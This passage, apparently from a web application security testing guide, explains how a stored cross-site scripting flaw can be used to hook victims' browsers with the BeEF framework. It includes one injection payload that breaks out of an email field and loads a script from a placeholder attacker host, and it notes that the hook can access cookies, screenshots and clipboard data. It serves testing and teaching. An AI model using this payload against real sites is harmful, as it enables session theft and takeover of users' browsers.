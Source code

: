 A typical BeEF exploitation scenario involves:

- Injecting a JavaScript hook which communicates to the attacker's browser exploitation framework (BeEF)
- Waiting for the application user to view the vulnerable page where the stored input is displayed
- Control the application user’s browser via the BeEF console

The JavaScript hook can be injected by exploiting the XSS vulnerability in the web application.

**Example**: BeEF Injection in index2.php:

`aaa@aa.com”><script src=http://attackersite/hook.js></script>`

When the user loads the page index2.php, the script hook.js is executed by the browser. It is then possible to access cookies, user screenshot, user clipboard, and launch complex XSS attacks.

> ![Beef Injection Example](images/RubyBeef.png)\
> *Figure 4.7.2-3: Beef Injection Example*
>
> This attack is particularly effective in vulnerable pages that are viewed by many users with different privileges.

